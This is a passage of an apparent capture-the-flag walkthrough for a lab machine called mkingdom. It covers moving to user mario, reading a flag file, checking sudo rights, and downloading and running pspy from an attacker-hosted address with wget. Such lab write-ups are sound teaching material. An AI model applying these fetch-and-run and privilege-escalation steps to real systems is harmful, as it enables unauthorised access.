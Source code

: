 ```bash
toad@mkingdom:~$ ls /home
mario  toad

toad@mkingdom:~$ su mario
Password: 

mario@mkingdom:/home/toad$ cd ~

mario@mkingdom:~$ ls
Desktop    Downloads  Pictures  Templates  Videos
Documents  Music      Public    user.txt

mario@mkingdom:~$ cat user.txt
cat: user.txt: Permission denied

mario@mkingdom:~$ ls -la user.txt 
-rw-r--r-- 1 root root 38 Nov 27  2023 user.txt

mario@mkingdom:~$ ls -la /bin/cat
-rwsr-xr-x 1 toad root 47904 Mar 10  2016 /bin/cat

mario@mkingdom:~$ head user.txt
[REDACTED]
```
### Investigating Privilege Escalation

Mario has permission to run the id binary using sudo, but this doesn't lead to any useful privilege escalation path. Further examination of configurations and files also doesn't yield any promising leads.

```bash
mario@mkingdom:~$ sudo -l
[sudo] password for mario:             
Matching Defaults entries for mario on mkingdom:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    pwfeedback

User mario may run the following commands on mkingdom:
    (ALL) /usr/bin/id
```

### Analyzing Scheduled Tasks

To uncover potential scheduled tasks, use the pspy tool (https://github.com/DominicBreuker/pspy). Host the pspy binary on your system and transfer it to the target machine using wget.

```bash
mario@mkingdom:~$ wget http://[YOUR IP]:8000/pspy
--2024-06-24 16:48:46--  http://[YOUR IP]:8000/pspy
Connecting to [YOUR IP]:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy’

100%[======================================>] 3,104,768   76.8KB/s   in 45s    

2024-06-24 16:49:32 (67.9 KB/s) - ‘pspy’ saved [3104768/3104768]

mario@mkingdom:~$ chmod +x pspy
mario@mkingdom:~$ ./pspy
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


```